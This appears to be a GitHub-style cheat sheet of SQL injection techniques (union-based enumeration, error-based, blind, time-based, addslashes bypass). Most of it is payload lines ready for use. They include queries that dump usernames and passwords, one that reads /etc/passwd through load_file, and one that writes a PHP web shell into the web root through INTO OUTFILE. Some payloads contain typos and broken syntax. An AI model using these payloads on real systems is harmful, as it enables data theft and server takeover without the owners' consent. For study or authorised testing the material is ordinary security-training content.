 # SQL Injection
SQL Injection is a common security vulnerability in web applications that interact with databases. In this type of attack, an attacker intentionally inserts malicious SQL statements into a web form's input fields or URL parameters, exploiting flaws in data validation or sanitization. When these instructions are executed by the database, they can allow the attacker to manipulate system behavior, such as accessing, modifying, or deleting data, or even gain complete control over the server.

## Information Schema
Through the Information Schema, it is possible to obtain the table with system users and passwords and obtain the information contained in it.

Exemple: ' union select 1,2, group_concat(table_name),4,5 from information_schema.tables where table_schema = "string" %23

Exemple: ' union select 1,2,concat(login,':',senha),4,5 from table %23

## Error Based
Error Based, as the name implies, is based on the error that returns when trying to make a query in the database in some field. With it, you can inject SQL code to discover information about the table and the database.

Exemple: ' union select 1,2,3... %23'

Exemple: ' order by 1 or 2 or 3...'

Exemple: union select 1, column_name, load_file(”/etc/passwd”), 4, from information_schema.columns where table_schema=”database” and table_name=”users” %23

## Blind
When there are no indications if there is a SQL Injection, some tests can be used to verify the AND and OR logic of the program.

Exemple: ' or 1=1 union select 1,2#

### Blind Post
To discover confidential information from the server through logic, it is possible to use the ascii function to find out the name of the database in which the application is located, so it is very common to use Burp Suite in Repeater mode to make requests.

Exemple: ' or length(database()) = 7 #

Exemple: ' or ascii(substring(database(),1,1)) = ascii number for letter # 

Exemple: ' or database() = char(115,116,114,105,110,103) # 

Exemple: ' or ascii(substring(select loing from column name limit 0,1),1,1)) = ascii number for letter #

## Time Based
Time Based uses the sleep() function to check if there is a SQL Injection vulnerability by observing if the page takes a long time to respond after sending a sleep() in a request to the database. If possible, you can use if to scan information about the database, tables, and other information as in other vulnerabilities

Exemple: ' or sleep(5)#

Exemple: ' or if (length(database()) = 5, sleep(5), 0)#

Exemple: ' or if (database() = char(char(115,116,114,105,110,103)), sleep(5), 0)#

Exemple: ' or if (ascii(substring(database(), 1, 1)) = 100, sleep(5), 0)#

## SQLi to RCE
With SQL command injection, you can write data to the server with the INTO OUTFILE command and the path of the directory you want to save.

Exemple: ‘ union all select 1,2,3,4, “string” INTO OUTFILE “/var/www/html/website/file.txt” %23

Exemple: ‘ union all select 1,2,3,4, “<?php system($_GET[’parameter’]); ?>” INTO OUTFILE “/var/www/html/website/banners/file.php” %23

## Bypass addslashes
In some cases, because of the way it was programmed to be queried in the database, some backslashes will be added to the query, making it impossible to make queries with single quotes, generating an error. However, one of the ways to circumvent this mechanism is to pass string values in decimals separated by commas with the char() function.

Exemple: echo -n “string” | od -An -tdC

Exemple:-1 union select 1,table_name,3,4,5 from information_schema.tables where table_schema=char(115,116,114,105,110,103)

Site: [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html)